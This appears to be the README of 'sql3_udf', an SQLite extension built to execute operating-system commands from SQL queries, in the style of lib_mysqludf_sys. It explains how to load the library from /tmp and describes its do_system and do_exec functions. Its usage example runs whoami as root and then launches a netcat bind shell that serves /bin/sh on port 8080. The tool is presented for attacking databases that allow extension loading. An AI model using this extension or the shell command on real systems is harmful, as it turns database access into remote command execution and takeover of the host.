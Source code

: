 sql3_udf
========

Much like lib_mysqludf_sys, this is a UDF (run-time loadable extension in 
sqlite land) library used to execute system commands from SQL queries.
It can be loaded through the SQLite3 interface or using a query:

```sqlite> select load_extension("/tmp/lib_sql3udf_sys.sqlext");
```
or
```sqlite .load /tmp/sql3_udf.sqlext
```

Please note that, by default, the load_extension functionality is disabled by 
default.  Many sqlite3 databases, however, do enable it, so all is not lost.  This
can be enabled in source code with the following:

``` sqlite3_enable_load_extension(db, 1);
```

Two functions are exposed through this simple interface:

```    do_system()
        -- Executes a system command and returns only the status of that execution.
    do_exec()
        -- Executes a system command and returns all of the resulting output.
```

Thus:
```    $ sqlite3 test.db
    sqlite> .load /tmp/sql3_udf.sqlext
    sqlite> select do_exec('whoami');
    root
    sqlite> select do_system("nc -lv -p 8080 -e /bin/sh &>/dev/null &");
    0
    sqlite>
```
